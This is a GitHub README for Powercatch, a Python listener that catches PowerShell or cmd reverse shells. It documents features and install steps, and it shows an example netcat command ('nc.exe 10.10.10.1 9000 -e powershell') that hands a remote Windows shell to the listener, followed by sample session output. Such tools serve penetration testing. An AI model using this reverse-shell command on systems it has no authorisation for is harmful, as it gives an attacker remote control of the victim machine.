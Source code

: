 # Powercatch

Listen for (powershell.exe || cmd.exe) reverse shells!

### Example:
Remote Machine:
```
PS C:\Windows\system32> nc.exe 10.10.10.1 9000 -e powershell
```
Local Machine:
```
$ powercatch 9000
[*] listening on 0.0.0.0:9000
[*] Accepted connection from 10.10.10.95 on port 49988
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.


PS C:\Users\redteam\Desktop> PowerHelp

Commands:
  PowerHelp              Display this menu
  clear                  Clear the screen
  cls                    Clear the screen
  exit                   Use exit command if you are in nested shell eg: if you called cmd within powershell
  quit                   Quits program

Key Combinations:
  Ctrl + \               For Directory completion (Makes a directory request on each key-combination press)
                         eg: PS > dir -Force <Ctrl + \>
  Ctrl + c               Cancels command so that you can try again
  Ctrl + d               Quits program

Future Commands To be Implemented:
  PowerDownload          Download remote file eg: PowerDownload <remote_dir> <local_dir>
  PowerUpload            Upload local file eg: PowerUpload <local_dir> <remote_dir>

PS C:\Users\redteam\Desktop> 
```

## Features:
 - Tab completion 
 - (Ctrl-l or "clear" or "cls") clears the screen
 - History
 - File and Folder completion with Ctrl + \ (Makes a directory request on each key-combination press)
 - Type "PowerHelp" for Powercatch help commands (command not sent over the network)

### TODO:
- Write a how to guide :)
- Add UDP support

### Install
```
$ git clone https://github.com/postrequest/powercatch.git
$ cd powercatch/
$ pip3 install prompt_toolkit
$ ./powercatch
```
